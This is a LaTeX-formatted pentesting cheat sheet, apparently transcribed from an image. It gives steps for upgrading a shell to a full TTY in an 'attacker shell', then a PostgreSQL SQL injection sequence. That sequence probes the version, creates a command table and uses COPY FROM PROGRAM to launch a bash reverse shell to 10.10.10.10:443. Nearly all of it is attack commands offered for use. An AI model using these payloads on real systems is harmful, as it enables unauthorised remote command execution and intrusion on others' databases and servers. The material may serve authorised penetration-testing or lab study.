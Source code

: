 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\begin{quote}
{[} ! {]} Note: stty -a is done in the attacker shell to know rows and columns size
\end{quote}

\hypertarget{use-sql-injection-for-create-a-reverse-shell}{%
\chapter*{Use SQL Injection for create a reverse shell}\label{use-sql-injection-for-create-a-reverse-shell}}

\hypertarget{postgresql}{%
\section*{Postgresql}\label{postgresql}}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Check the db VERSION

\begin{verbatim}
' UNION SELECT NULL, NULL, NULL, NUUL, VERSION() --
\end{verbatim}
\item
  Create a table for execute commands

\begin{verbatim}
'; CREATE TABLE cmd_exec(cmd_output text) --
\end{verbatim}
\item
  Initiate a reverse shell

\begin{verbatim}
'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/10.10.10.10/443 0>&1'''; --
\end{verbatim}
\end{enumerate}
\end{document}
